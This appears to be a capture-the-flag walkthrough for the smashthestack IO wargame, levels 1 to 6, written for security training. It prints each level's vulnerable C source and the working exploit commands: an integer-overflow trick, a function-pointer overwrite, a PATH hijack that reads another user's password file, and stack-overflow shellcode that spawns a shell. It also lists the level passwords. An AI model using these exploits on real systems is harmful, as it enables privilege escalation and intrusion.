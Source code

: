 # [smashthestack](http://smashthestack.org/)

## [IO](http://io.smashthestack.org:84/)

### level-1

        # ssh level1@io.smashthestack.org
        password: level1
        
        # cd /levels/
        # gdb level01
        (gdb) disassemble main
        
        Dump of assembler code for function main:
        0x08048080 <+0>:	push   $0x8049128
        0x08048085 <+5>:	call   0x804810f <puts>
        0x0804808a <+10>:	call   0x804809f <fscanf>
        0x0804808f <+15>:	cmp    $0x10f,%eax
        0x08048094 <+20>:	je     0x80480dc <YouWin>
        0x0804809a <+26>:	call   0x8048103 <exit>
        End of assembler dump.
        
        # ./level01
        Enter the 3 digit passcode to enter: 271
        Congrats you found it, now read the password for level2 from /home/level2/.pass
        
### level-2

        # ssh level2@io.smashthestack.org
        password: 3ywr07ZFw5IsdKzU

#### level02
        
        # cat /levels/level02.c
        
        #include <stdio.h>
        #include <stdlib.h>
        #include <signal.h>
        #include <setjmp.h>

        void catcher(int a)
        {
            setresuid(geteuid(),geteuid(),geteuid());
            printf("WIN!\n");
            system("/bin/sh");
            exit(0);
        }

        int main(int argc, char **argv)
        {
            puts("source code is available in level02.c\n");

            if (argc != 3 || !atoi(argv[2]))
                return 1;
            signal(SIGFPE, catcher);
            return abs(atoi(argv[1])) / atoi(argv[2]);
        }

        # /levels/level02 -2147483648 -1
        WIN!

#### level02_alt

        # cat /levels/level02.c

        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>

        #define answer 3.141593

        void main(int argc, char **argv) {
            float a = (argc - 2)?: strtod(argv[1], 0);
            
            printf("You provided the number %f which is too ", a);
            if(a < answer)
                puts("low");
            else if(a > answer)
                puts("high");
            else
                execl("/bin/sh", "sh", "-p", NULL);
        }

        
        # /levels/level02_alt nan
        
### level-3

        # ssh level3@io.smashthestack.org
        password: IFd92yzOnSMv9tkX

        # cat /levels/level03.c
        
        #include <stdio.h>
        #include <string.h>

        void good()
        {
            puts("Win.");
            execl("/bin/sh", "sh", NULL);
        }
        void bad()
        {
            printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
        }

        int main(int argc, char **argv, char **envp)
        {
            void (*functionpointer)(void) = bad;
            char buffer[50];

            if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

            memcpy(buffer, argv[1], strlen(argv[1]));
            memset(buffer, 0, strlen(argv[1]) - 4);

            printf("This is exciting we're going to %p\n", functionpointer);
            functionpointer();

            return 0;
        }
        
        # /levels/level03 something
        
        This is exciting we're going to 0x80484a4
        I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
        
        # /levels/level03 `echo -e "123451234512345123451234512345123451234512345123451234512345123451234512345=\x74"`
        This is exciting we're going to 0x8048474
        Win.

### level-4

        # ssh level4@io.smashthestack.org
        password: nSwmULj2LpDnRGU2

        # cat /levels/level04.c
        
        #include <stdlib.h>
        #include <stdio.h>

        int main() {
            char username[1024];
            FILE* f = popen("whoami","r");
            fgets(username, sizeof(username), f);
            printf("Welcome %s", username);

            return 0;
        }
        
        # /levels/level04
        Welcome level5
        
        # mkdir /tmp/ving_dir
        # echo cat /home/level5/.pass >> /tmp/ving_dir/whoami
        # chmod 777 /tmp/ving_dir/whoami
        # ls -l /tmp/ving_dir
        -rwxrwxrwx 1 level4 level4 23 Nov 24 10:44 whoami
        
        # PATH="/tmp/ving_dir:$PATH"
        # echo $PATH
        /tmp/ving_dir:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
        
        # /levels/level04
        Welcome LOoCy5PbKi63qXTh
        
### level-5

        # ssh level5@io.smashthestack.org
        password: LOoCy5PbKi63qXTh

        # cat /levels/level05.c
        
        #include <stdio.h>
        #include <string.h>

        int main(int argc, char **argv) {
            char buf[128];
            if(argc < 2) return 1;
            strcpy(buf, argv[1]);
            printf("%s\n", buf);
            return 0;
        }
        
        # /levels/level05 `python -c 'print "\x90"*88+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"+"\x90"*26+"\xb0\xfb\xff\xbf"'`
        
        # cat /home/level6/.pass
        rXCikld0ex3EQsnI

### level-6

        # ssh level6@io.smashthestack.org
        password: rXCikld0ex3EQsnI
        
        # cat /levels/level06.c
        
